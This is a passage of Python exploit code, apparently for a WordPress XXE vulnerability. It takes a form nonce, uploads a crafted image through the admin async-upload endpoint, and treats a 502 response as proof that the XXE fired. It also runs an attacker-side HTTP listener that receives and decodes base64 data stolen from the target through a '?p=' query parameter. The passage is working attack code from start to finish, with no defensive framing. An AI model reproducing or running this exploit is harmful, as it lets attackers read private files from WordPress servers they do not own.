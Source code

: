 ```py
    wp_nonce = findall(r'name="_wpnonce" value="(\w+)"',res.text)
    if len(wp_nonce) == 0 :
        print("[-] Failed to retrieve the _wpnonce")
        return False
    else :
        _wpnonce = wp_nonce[0]
        print("[+] Wp Nonce retrieved successfully ! _wpnonce : " + _wpnonce)

    file_data = {"name": (None, filename), "action": (None, "upload-attachment"), "_wpnonce": (None, _wpnonce), "async-upload": (filename, image_data)}

    # send the POST request to upload the image
    response = session.post(f"{url}/wp-admin/async-upload.php", files=file_data)

    # check if the image was uploaded successfully
    if 'success' in response.text:
        print('[+] Image uploaded successfully!')
        # return True
        pass
    elif response.status_code == '502':
        return True  # XXE triggered.
    else:
        print('[-] Image upload failed.')
        return False 

# http server handler
class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    already_processed = set() # Add this line to define the attribute

    def __init__(self, *args, **kwargs):
        super().__init__(*args, directory='.', **kwargs)

    def do_GET(self):
        # Check if the request has already been processed
        if self.path in self.already_processed:
            return
        self.already_processed.add(self.path)

        super().do_GET()

        # extract the request path from the log and print it
        request_path = self.requestline
        if "?p=" in request_path:
            recv_data = request_path.split(' ')[1]
            recv_data = findall(r"/\?p=(.*?)$", recv_data)[0]
            base64_decoded = b64decode(recv_data).decode('UTF-8')
            print('[+] Data received:\n\n'+ base64_decoded)

    def log_message(self, format, *args):
        pass

# http server
def run_http_server(port):
    try:
        socketserver.TCPServer.allow_reuse_address = True  # Fixes "[Errno 48] Address already in use" error
        server = socketserver.TCPServer(("", port), MyHttpRequestHandler)
        print("[+] HTTP server started at port", port)
        server.serve_forever()
    except OSError as e:
        print(e)

# Generate required files for the exploit
```
